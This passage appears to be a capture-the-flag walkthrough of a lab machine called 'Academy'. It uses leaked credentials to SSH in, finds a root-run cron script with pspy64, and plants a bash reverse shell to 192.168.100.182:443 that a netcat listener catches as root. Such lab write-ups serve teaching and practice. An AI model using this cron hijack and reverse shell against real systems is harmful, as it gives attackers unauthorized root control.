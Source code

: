 - username : grimmie
- password : My_V3ryS3cur3_P4ss

- ssh into the machine using the above credentials.
	
		┌─[whoami@parrot]─[~/Desktop/task_machines/Academy]
		└──╼ $ssh grimmie@192.168.100.189
		grimmie@192.168.100.189's password: 
		Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

		The programs included with the Debian GNU/Linux system are free software;
		the exact distribution terms for each program are described in the
		individual files in /usr/share/doc/*/copyright.

		Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
		permitted by applicable law.
		Last login: Mon Jan 31 04:28:58 2022 from 192.168.100.194
		grimmie@academy:~$ whoami
		grimmie
		grimmie@academy:~$ 
	
- print out the contents of 'backup.sh' in the home directory.

		grimmie@academy:~$ cat backup.sh 
		#!/bin/bash

		rm /tmp/backup.zip
		zip -r /tmp/backup.zip /var/www/html/academy/includes
		chmod 700 /tmp/backup.zip

- the script purpose is to backup the '/var/www/html/academy/includes' directory and give access to root only.
- wget pspy64 using the link : "https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64"
- make the file executable using 'chmod +x'
- execute pspy64 to reveal all the processes running on backgroud.

		2022/01/31 04:48:01 CMD: UID=0    PID=2198   | /bin/bash /home/grimmie/backup.sh 
		2022/01/31 04:48:01 CMD: UID=0    PID=2199   | /bin/bash /home/grimmie/backup.sh 

- backup.sh is running repeatedly each minute having root privileges.

- Add this line in backup.sh file to get access to the root shell:

		bash -c "bash -i >& /dev/tcp/192.168.100.182/443 0>&1"

- on another terminal run nc and listen to port 443 and get the root shell.

		┌─[whoami@parrot]─[~/Desktop/task_machines/Academy]
		└──╼ $sudo nc -lvnp 443
		[sudo] password for whoami: 
		Listening on 0.0.0.0 443
		Connection received on 192.168.100.189 42078
		bash: cannot set terminal process group (2240): Inappropriate ioctl for device
		bash: no job control in this shell
		root@academy:~# whoami
		whoami
		root
		root@academy:~# cat flag.txt
		cat flag.txt
		Congratz you rooted this box !
		Looks like this CMS isn't so secure...
		I hope you enjoyed it.
		If you had any issue please let us know in the course discord.

		Happy hacking !

